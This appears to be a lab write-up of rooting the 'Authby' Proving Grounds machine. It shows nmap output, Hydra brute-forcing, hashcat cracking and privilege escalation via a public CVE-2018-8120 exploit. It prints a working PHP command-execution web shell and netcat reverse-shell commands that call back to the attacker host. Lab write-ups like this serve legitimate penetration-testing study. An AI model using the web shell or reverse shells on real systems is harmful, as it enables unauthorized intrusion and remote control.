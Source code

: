 #### Mind Map

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/rooted202111141710.png)

#### Enumeration

```
# Nmap 7.91 scan initiated Mon Nov  8 07:23:31 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Authby/AutoRecon/results/192.168.80.46/scans/xml/_full_tcp_nmap.xml 192.168.80.46
Nmap scan report for 192.168.80.46
Host is up, received user-set (0.30s latency).
Scanned at 2021-11-08 07:23:32 EST for 709s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 127 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Nov 08 20:20 log
| ----------   1 root     root         2275 Aug 09  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Jul 26 21:51 accounts
242/tcp  open  http               syn-ack ttl 127 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
|_http-title: 401 Authorization Required
3145/tcp open  zftp-admin         syn-ack ttl 127 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 127
| rdp-ntlm-info: 
|   Target_Name: LIVDA
|   NetBIOS_Domain_Name: LIVDA
|   NetBIOS_Computer_Name: LIVDA
|   DNS_Domain_Name: LIVDA
|   DNS_Computer_Name: LIVDA
|   Product_Version: 6.0.6001
|_  System_Time: 2021-11-08T12:33:18+00:00
| ssl-cert: Subject: commonName=LIVDA
| Issuer: commonName=LIVDA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-06-03T21:15:17
| Not valid after:  2021-12-03T21:15:17
| MD5:   bb3f f979 9fc1 9d02 baa7 d0a4 9ccb 0922
| SHA-1: d0a1 8a6a 8326 1123 85f2 59e3 71ea c66c f3a4 048f
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQGttsFTOC+IFFUDrl75tnVzANBgkqhkiG9w0BAQUFADAQ
| MQ4wDAYDVQQDEwVMSVZEQTAeFw0yMTA2MDMyMTE1MTdaFw0yMTEyMDMyMTE1MTda
| MBAxDjAMBgNVBAMTBUxJVkRBMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEAw5XIXz8iD9nH+yWmmm8qL9mhTX2ePktQVr8V+9pejC7+QnNWIBRiQgn1n24f
| LXtl9fWPICyoHMRlMzPYZXddHGgFU8ld7UwJs2q5/egKfKE25T0Qp6GN8KesIzkn
| un0mIJY7eEx+U+KbjH6Yh7607bGmy3Mjpa18WqwF+i2WWBF8bXDvuZPkcWP2YWBQ
| 01LoDtUFGJ0KeCFIHFe5eCsREFkYKkqLhvGCYPl3EYKVY3Av2VE8VUtf2HadzF1s
| LBlefoT3p26bKr4guGhXUk8EXSNfHZAMl9mGlGX11A4RpVx/gna4Lx/elUYnfLNP
| oSVwjm2I4M/cQyeWXK670acSTwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQEFBQADggEBAHGQtYLWjpu4Mebquf3u
| xfUqqlq+012JEgM2W2j/ny/ax71gMxKa2jr6bWWhfN8j2cNe0tEsJYmaHsiq12l9
| OnOiJ6pSq9HBSp8lycCZ6uyXmPfcYYMuurcAf0dvUjBVbNr7vt74DogaJUzM7HH+
| Do+r1PIODTQdPPiBS+Ygmx1tyStwnMIg47WHslB5L22t31xruDx83l2BzUftdbPB
| /xy1v6LqHhKR/1JPVVbad5dGBJT5nZqPSM2NS6OmiUyZlZbvkLQo8WOnHgq7fSHu
| ylD3NdGLQzpIV6R6tzkY/Gw8gWLH3pFCppgxL7nsnYltPYPDqhT7WHudKsS6CrYC
| 3Ws=
|_-----END CERTIFICATE-----
|_ssl-date: 2021-11-08T12:33:24+00:00; -1m55s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.91%E=4%D=11/8%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=61891989%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10C%TI=I%II=I%SS=S%TS=7)
OPS(O1=M54ENW8ST11%O2=M54ENW8ST11%O3=M54ENW8NNT11%O4=M54ENW8ST11%O5=M54ENW8ST11%O6=M54EST11)
WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)
ECN(R=Y%DF=Y%TG=80%W=2000%O=M54ENW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Uptime guess: 0.021 days (since Mon Nov  8 07:04:30 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1m55s, deviation: 0s, median: -1m55s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   304.14 ms 192.168.49.1
2   304.23 ms 192.168.80.46

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov  8 07:35:21 2021 -- 1 IP address (1 host up) scanned in 711.76 seconds

```

We access ftp with anonymous account and the folder contains three zftp account files.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_12h14m33s_001_.png)

I create a text file named users.txt and add usernanmes ```admin``` and ```offsec``` to each line.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h38m52s_002_.png)

Brute force attack with Hydra to obtain credentials. (I learned not to use rockyou.txt in the first place. You can try smaller dictionary files first.)

```
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt -t 20 -s 21 -f 192.168.73.46 ftp
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h42m07s_003_.png)

We log in to with admin account and download all the three files. The .htpasswd file stores username and password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_14h49m19s_004_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h05m44s_005_.png)

Use hashcat to crack the apache md5 hash code and we get the recovery password ```elite```. ([hashcat -m {Hash-Mode}](https://hashcat.net/wiki/doku.php?id=example_hashes))

```
echo '$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0' > hash
hashcat -m 1600 hash -a 0 /usr/share/wordlists/rockyou.txt --force
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h10m18s_006_.png)

We use credential to pass HTTP authentication.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h21m10s_007_.png)

Now let's go back to the ftp directory, which looks like the root of the site.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h24m49s_008_.png)

We upload a php file that can execute system commands via system function. (Many php web sehlls do not work properly.) 

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h30m51s_009_.png)

Upload the netcat execution file via ftp.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h35m33s_010_.png)

Execute the command ```nc.exe -e cmd.exe 192.168.49.73 80``` to get the shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h38m12s_011_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h38m30s_012_.png)

Check the privileges. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h40m27s_013_.png)

#### Privilege Escalation

The target pc runs an old version os and no patched, so we can try to exploit kernel vulnerabilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_15h59m42s_014_.png)

After searching for a while I found the vulnerability [CVE-2018-8120](https://github.com/unamer/CVE-2018-8120) working.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_16h25m38s_015_.png)

We upload x86 version execution file and execute the netcat command ```nc.exe -e cmd.exe 192.168.49.73 3145```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_16h44m50s_016_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Authby/Authby_2021.11.14_16h45m09s_017_.png)
